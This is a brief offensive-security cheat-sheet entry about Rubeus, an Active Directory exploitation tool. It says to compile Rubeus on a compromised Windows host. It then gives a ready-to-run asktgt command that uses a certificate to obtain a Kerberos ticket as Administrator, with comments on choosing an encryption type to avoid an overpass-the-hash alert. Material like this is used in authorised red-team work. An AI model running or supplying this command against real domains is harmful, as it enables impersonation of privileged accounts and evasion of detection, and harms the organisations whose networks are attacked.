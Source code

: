 # Rubeus

Rubeus is Active Directory exploitation tool that is prodominately used from compromised domain-joined Windows host, so gain access and compile [Rubeus](https://github.com/GhostPack/Rubeus) on the target machine. Compilation instructions can be found [here](https://github.com/GhostPack/Rubeus#compile-instructions)


Impersonate a User for [[AD-Certificate-Exploitation]], use Rubeus to request a TGT using the certificate to verify that the certificate is trusted - [[AD-Certificate-Exploitation]] and [[AD-Persistence-Certificates]]
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```